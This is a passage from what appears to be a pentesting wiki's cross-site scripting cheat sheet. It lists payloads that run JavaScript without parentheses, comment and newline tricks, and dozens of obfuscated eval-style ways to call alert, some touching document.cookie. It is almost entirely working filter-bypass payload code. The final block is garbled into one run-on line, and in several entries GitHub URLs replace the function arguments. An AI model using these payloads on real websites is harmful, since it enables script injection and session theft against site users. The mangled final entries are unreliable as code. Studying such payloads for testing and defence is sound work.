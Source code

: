 ```javascript
alert`1`
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
eval.call`${'alert\x2823\x29'}`
eval.apply`${[`alert\x2823\x29`]}`
```

* [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

#### JavaScript comments \(from [JavaScript Comments](./#javascript-comments) trick\)

```javascript
//This is a 1 line comment
/* This is a multiline comment*/
#!This is a 1 line comment, but "#!" must to be at the beggining of the line
-->This is a 1 line comment, but "-->" must to be at the beggining of the line
```

#### JavaScript new lines \(from [JavaScript new line](./#javascript-new-lines) trick\)

```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10) //0x0a
String.fromCharCode(13) //0x0d
String.fromCharCode(8232) //0xe2 0x80 0xa8
String.fromCharCode(8233) //0xe2 0x80 0xa8
```

#### Arbitrary function \(alert\) call

```javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}
```

//General function executions ``//Can be use as parenthesis alert`document.cookie` alert(document['cookie']) with(document)alert(cookie) (alert)(1) (alert(1))in"." a=alert,a(1) [1].find(alert) window['alert'](0) parent['alert'](1) self['alert'](2) top['alert'](3) this['alert'](4) frames['alert'](5) content['alert'](6) [7].map(alert) [8].find(alert) [9].every(alert) [10].filter(alert) [11].findIndex(alert) [12].forEach(alert); top[/al/.source+/ert/.source](1) top[8680439..toString(30)](1) Function("ale"+"rt(1)")(); new Function`al\ert\`6\``; Set.constructor\('ale'+'rt\(13\)'\)\(\); Set.constructor````al\x65rt\x2814\x29```; $='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y) x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y)) this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array) globalThis[````al`+/ert/.source]`1`this[`al`+/ert/.source]`1`[alert][0].call(this,1) window['a'+'l'+'e'+'r'+'t']() window['a'+'l'+'e'+'r'+'t'].call(this,1) top['a'+'l'+'e'+'r'+'t'].apply(this,[1]) (1,2,3,4,5,6,7,8,alert)(1) x=alert,x(1) [1].find(alert) top["al"+"ert"](1) top[/al/.source+/ert/.source](1) al\u0065rt(1) al\u0065rt`1\` top['al\145rt'](https://github.com/boredgamesdev/gitbook/tree/a66cdd3c47098f9596e663de9498e9ad963192ca/pentesting-web/xss-cross-site-scripting/1/README.md) top['al\x65rt'](https://github.com/boredgamesdev/gitbook/tree/a66cdd3c47098f9596e663de9498e9ad963192ca/pentesting-web/xss-cross-site-scripting/1/README.md) top[8680439..toString\(30\)](https://github.com/boredgamesdev/gitbook/tree/a66cdd3c47098f9596e663de9498e9ad963192ca/pentesting-web/xss-cross-site-scripting/1/README.md)
